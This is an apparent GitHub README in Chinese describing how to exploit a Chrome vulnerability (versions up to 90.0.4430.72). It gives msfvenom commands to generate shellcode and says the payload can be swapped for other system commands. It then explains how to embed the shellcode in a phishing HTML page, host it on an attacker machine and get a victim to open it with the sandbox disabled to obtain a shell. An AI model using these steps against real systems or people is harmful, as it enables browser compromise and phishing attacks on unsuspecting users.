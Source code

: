 # Chrome-0day
## 影响范围

目前最新版也受影响
小于等于90.0.4430.72 (正式版本)

## 利用过程

### 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

**64位操作系统：**

```
msfvenom -a x64 -p windows/x64/exec CMD="calc" EXITFUNC=thread -f num
```

**32位操作系统：**

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*（当然也可以换成其他系统命令，注意这里的架构要和浏览器所在操作系统的保持一致，一般为64位）*

### 制作html钓鱼文件


将生成的代码放入explo.html中shellcode[]中。

#### 方式一

浏览器关闭沙盒并打开网页

```
chrome.exe --no-sanbox /path/to/exploit.html
```
![image](https://user-images.githubusercontent.com/41281045/115233705-d0f06780-a14a-11eb-9f2e-ebf6e785b46f.png)

#### 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

http://192.168.43.232/exploit.html

![image](https://user-images.githubusercontent.com/41281045/115233623-b7e7b680-a14a-11eb-9fd0-49665bf58653.png)



然后记得关闭沙盒后打开使用Chrome浏览器访问exploit.html即可成功反弹shell。



### 关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",

![image](https://user-images.githubusercontent.com/41281045/115229381-90421f80-a145-11eb-97ad-04f84bcd1784.png)



















